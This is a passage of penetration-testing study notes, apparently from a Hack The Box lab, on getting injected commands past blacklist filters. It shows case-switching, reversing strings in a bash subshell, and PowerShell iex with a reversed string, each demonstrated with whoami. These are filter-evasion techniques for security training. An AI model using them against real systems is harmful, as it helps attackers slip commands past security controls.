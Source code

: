 ![](Pasted%20image%2020250218185335.png)

There are many other commands we may use for the same purpose, like the following:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

## Reversed Commands

Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:

```shell
gitblanc@htb[/htb]$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:

```shell
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

We see that even though the command does not contain the actual `whoami` word, it does work the same and provides the expected output. We can also test this command with our exercise, and it indeed works:

![](Pasted%20image%2020250218190018.png)

>[!Tip]
>If you wanted to bypass a character filter with the above method, you'd have to reverse them as well, or include them when reversing the original command.

The same can be applied in `Windows.` We can first reverse a string, as follows:

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```
